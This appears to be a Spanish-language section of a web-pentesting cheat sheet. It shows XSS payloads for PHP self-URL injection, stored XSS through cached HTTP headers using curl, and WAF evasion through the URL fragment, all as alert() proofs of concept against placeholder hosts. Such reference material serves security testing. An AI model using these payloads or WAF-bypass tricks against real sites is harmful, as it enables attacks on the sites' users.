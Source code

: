 ## PHP Self URL Injection

Úselo cuando el código PHP subyacente del destino utilice la URL actual como un valor de atributo de un formulario HTML.
Por ejemplo, inyecte entre la extensión php y el inicio de la parte de la consulta (?) usando una barra inclinada (/):

```
https://vulnerable.com/xss.php/"><svg onload=alert(1)>?a=reader
```

## XSS in HTTP Header Cached

Úselo para almacenar un vector XSS en la aplicación utilizando el esquema de caché MISS-MISS-HIT (si existe uno).

Reemplace \<XSS> con su vector respectivo y TARGET con una cadena ficticia para evitar la versión en caché real de la página. Realiza la misma solicitud 3 veces:

```
curl -i http://example.com/test123.php
```

Si se observa algún header del tipo "header-especial: HIT", se debe agregar algo en la URL para evitar la caché, ya que el valor de "HIT" implica que está llegando al WAF:

```
curl -i http://example.com/test123.php?cgonzalo
```

Ahora se observa el valor de "header-especial: MISS", lo cual indica que esta URL es una versión no almacenada en caché de la página.

Luego, inyectar nuestro propio encabezado (con la flag -H) para verificar si aparece como respuesta:

```
curl -iH "Test: myValue" http://example.com/test123.php?cgonzalo
```

Si se refleja, inyectar el payload que desee para XSS:

```
curl -iH "XSS: <svg onload=alert(8)>" http://example.com/test123.php?nuevoxssstored
```

Repetir hasta que se muestre "header-especial: HIT", lo cual indica que se ha almacenado hasta que caduque la caché.


## Jump to URL Fragment

Úselo cuando necesite ocultar algunos caracteres de su carga útil que activarían un WAF.

Usa el payload después del fragmento de URL (#):

```
eval(URL.slice(-8)) #alert(1)

eval(location.hash.slice(1)) #alert(1)

document.write(decodeURI(location.hash)) #<img/src/onerror=alert(1)>
```
